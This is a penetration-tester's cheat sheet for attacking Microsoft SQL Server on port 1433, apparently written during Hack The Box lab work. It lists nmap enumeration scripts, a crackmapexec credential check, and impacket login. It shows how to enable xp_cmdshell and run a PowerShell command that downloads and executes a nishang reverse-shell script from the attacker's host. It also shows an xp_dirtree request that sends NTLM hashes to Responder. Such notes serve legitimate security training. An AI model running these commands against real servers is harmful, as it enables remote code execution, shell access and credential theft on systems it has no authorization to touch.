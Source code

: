 ```yaml
---
title: Port 1433 - MSSQL
draft: false
tags:
  - mssql
  - crackmapexec
  - impacket-mssqlclient
  - cme
---
```

## Enumeration

```bash
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <IP>
```

## Bruteforce

Check whether creds found is valid on MSSQL:

``crackmapexec mssql manager.htb -u Desktop/user.txt -p Desktop/user.txt --no-brute --continue-on-success`

## Interaction

Using **impacket-mssqlclient**, interact with the database:

`impacket-mssqlclient -port 1433 10.10.11.236/operator:operator@10.10.11.236 -windows-auth`


Below are example interaction:

```sql
SELECT name FROM master.dbo.sysdatabases;
USE master;
select table_name from information_schema.tables;
SELECT COLUMN_NAME, DATA_TYPE, CHARACTER_MAXIMUM_LENGTH, NUMERIC_PRECISION, NUMERIC_SCALE from information_schema.columns where table_name = 'spt_fallback_db';
```



  

## Command Execution

Try **xp_cmdshell** and **xp_dirtree**:
  

```sql
xp_dirtree
xp_cmdshell
EXEC xp_cmdshell
EXEC xp_dirtree
```



  If they are not enabled, try enabling them:

  

```sql
enable xp_cmdshell
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

  

### Example CME

If there's **IIS** running and **xp_dirtree** is enabled:

```sql
EXEC xp_dirtree 'C:\inetpub\wwwroot', 1, 1;
```

### Reverse Shell

First check the privilege by typing in `help`:

![](https://i.imgur.com/ADm124T.png)


Enable **xp_cmdshell**:

`enable_xp_cmdshell` & `RECONFIGURE`

![](https://i.imgur.com/zDNomDR.png)


To spawn reverse shell, prepare nishang's **Invoke-PowerShellTcp.ps1** on your attacking directory and start python HTTP server.

Using the command below, download and execute reverse shell script toward your Kali listener:

`EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://10.10.14.17:8000/ps-rev.ps1") | powershell -noprofile'`

![](https://i.imgur.com/ScVyR6x.png)


Now on your local netcat listener, you have a shell:

![](https://i.imgur.com/NaBRupU.png)


## Relay Attack

Follow [this guide](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server#steal-netntlm-hash-relay-attack) on Hacktricks.

First start Responder:

`sudo responder -I tun0`

![](https://i.imgur.com/7mAQptg.png)


Now on MSSQL connection, make a request to Kali's responder:

`xp_dirtree '\\10.10.14.17\home\yoon`

![](https://i.imgur.com/3e75O33.png)



Instantly, reponsder captures NTLM hash:

![](https://i.imgur.com/OCuWc95.png)


On [Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server), there's more detailed guide on pentesting MSSQL.

